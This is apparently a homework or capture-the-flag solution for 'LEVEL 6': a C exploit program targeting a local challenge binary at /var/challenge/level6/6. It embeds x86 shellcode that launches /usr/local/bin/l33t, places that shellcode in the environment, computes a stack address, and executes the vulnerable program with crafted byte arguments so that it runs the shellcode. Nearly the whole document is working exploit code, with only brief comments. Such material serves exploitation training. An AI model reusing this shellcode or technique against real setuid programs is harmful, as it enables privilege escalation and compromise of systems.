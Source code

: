 # homeWork
LEVEL 6
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

#define VULN "/var/challenge/level6/6" // vulnerable program
char shellcode[] = "\xeb\x15\x5b\x31\xc0\x88\x43\x13\x89\x5b\x14\x89\x43\x18\x8d\x4b\x14\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/usr/local/bin/l33t";       // shellcode string

int main() {
        unsigned int addr;
     // Define the commandline parameters that VULN expects
     char* cmdParam1 = "65535" ;char* cmdParam2= "\xb0 28";char* cmdParam3= "\xff 29";char* cmdParam4= "\xff 30";char* cmdParam5= "\xbf 31";
     addr = 0xc000000 -8 - strlen(VULN) - 1 - 47 -1;
     fprintf(stderr, "Using address: %#010x\n", addr);
     // Define a null-terminated argv array for execve()
     char *progWithParameters[] = 
         {VULN, cmdParam1, cmdParam2,cmdParam3,cmdParam4,cmdParam5, NULL};

     // Define a null-terminated envp array for execve()
     // This is where we place our shellcode, on the environment
     char *envp[] = {shellcode, NULL};

     // invoke execve(prog, progWithParameters, envp)
     execve(progWithParameters[0], progWithParameters, envp);

     return 0;
}

